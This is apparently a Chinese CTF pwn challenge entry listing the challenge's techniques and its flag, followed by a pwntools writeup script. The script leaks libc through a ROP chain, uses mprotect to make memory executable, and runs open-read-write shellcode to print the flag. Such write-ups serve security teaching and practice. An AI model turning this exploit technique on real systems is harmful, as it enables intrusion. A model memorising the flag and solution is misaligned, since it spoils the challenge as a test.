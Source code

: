 - **题目名称：** I_want_2_LEAVE 2.0
- **题目类型：** PWN  
- **题目难度：**简单
- **出题人：** i-Corner
- **考点：**

1. 栈迁移
1. mprotect
1. orw

- **描述：** PWN真是太逊啦，又双叒叕想跑路了
- **flag：** XSCTF{7bd8caa6-8b04-e7ae-19f8-885567def3b5}
- **Writeup：**

```python
#测试请在Ubuntu18环境下

from pwn import *
context(log_level='DEBUG',arch='amd64')
p = process("./shell")
#p = remote("0.0.0.0",10001)
e = ELF("./shell")
libc = ELF("./libc-2.27.so")
p.timeout = 0.5
ret = 0x400536
rdi = 0x400863
rsi = 0x23a6a
rdx = 0x1b96
bss= 0x601010 + 0x300
leave_ret = 0x4007FB
main_addr = 0x40075d
p.recvuntil(b"soft! try me :)\n")
pl1 = b'a'*(0x20) + p64(0) + p64(rdi) + p64(e.got['puts']) + p64(e.plt['puts']) + p64(main_addr)
p.send(pl1)
base = u64(p.recvuntil("\x7f")[-6:].ljust(8,b'\x00')) - libc.sym['puts']
success("base:" +hex(base))
p.recvuntil(b"soft! try me :)\n")
pl2 = b'a'*(0x20) + p64(0) + p64(rdi) + p64(0x600000)+ p64(base+rsi)+ p64(0x2000)+ p64(base+rdx) + p64(7) + p64(base+libc.sym['mprotect']) + p64(main_addr)

p.send(pl2)
pl3 = b'a'*(0x28)+ p64(rdi) + p64(0) + p64(base+rsi) + p64(0x600000+0x500) + p64(base+rdx) + p64(0x100) + p64(e.plt['read']) + p64(0x600000+0x500)
p.recvuntil(b"soft! try me :)\n")
mmap=0x600000
orw_payload=shellcraft.open('./flag')           
orw_payload+=shellcraft.read(3,mmap,0x50)       
orw_payload+=shellcraft.write(1,mmap,0x50)      


p.send(pl3)
sleep(0.2)

p.send(asm(orw_payload))

p.interactive()

```
